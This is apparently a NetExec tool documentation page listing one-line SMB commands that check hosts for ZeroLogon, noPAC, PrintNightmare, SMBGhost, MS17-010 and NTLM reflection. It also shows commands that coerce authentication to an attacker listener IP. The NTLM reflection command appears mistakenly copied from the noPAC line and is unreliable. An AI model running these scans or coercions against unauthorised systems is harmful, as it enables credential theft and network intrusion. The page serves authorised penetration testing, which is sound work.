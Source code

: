 ```yaml
---
description: Check if host is vulnerable
---
```


# Scan for Vulnerabilities

## Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

#### ZeroLogon

```bash
nxc smb <ip> -u '' -p '' -M zerologon
```

#### noPAC

```bash
nxc smb <ip> -u 'user' -p 'pass' -M nopac
```

{% hint style="warning" %}
You need a credential for noPAC vulnerability check.
{% endhint %}

#### PrintNightmare

```bash
nxc smb <ip> -u '' -p '' -M printnightmare
```

#### SMBGhost

```bash
nxc smb <ip> -u '' -p '' -M smbghost
```

#### MS17-010 (Not tested outside LAB environment)

```bash
nxc smb <ip> -u '' -p '' -M ms17-010
```

#### NTLM reflection (CVE-2025-33073)

```bash
nxc smb <ip> -u 'user' -p 'pass' -M nopac
```

{% hint style="warning" %}
You need credentials for CVE-2025-33073 vulnerability check.
{% endhint %}

Or, try them all at once! Just list each one: `-M zerologon -M printnightmare`

## Scan for Coerce Vulnerabilities

You can check for coerce vulnerabilities such as PetitPotam, DFSCoerce, PrinterBug, MSEven and ShadowCoerce using the coerce\_plus module. You can also use credentials to check for these vulnerabilities. By default the LISTENER ip will be set to localhost, so no traffic will appear on the network.

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus
```

If a vulnerability is found, you can set a LISTENER ip to coerce the connection.

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>
```

To run all exploit methods at once, add the ALWAYS=true option, otherwise it will stop if the underlying RPC connection reports a successful coercion.

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true
```

You can also check for a specific coerce method by specifying it:

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```

{% hint style="success" %}
Instead of using the `METHOD` option, you can use its short form `M`. Similarly, the argument `LISTENER` can be shortened to `L`.

This also applies to the names of the vulnerabilities when specifying a method.

M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error

M=pr // Matches printerbug

M=pe // Matches petitpotam

M=dfs // Matches dfscoerce
{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`
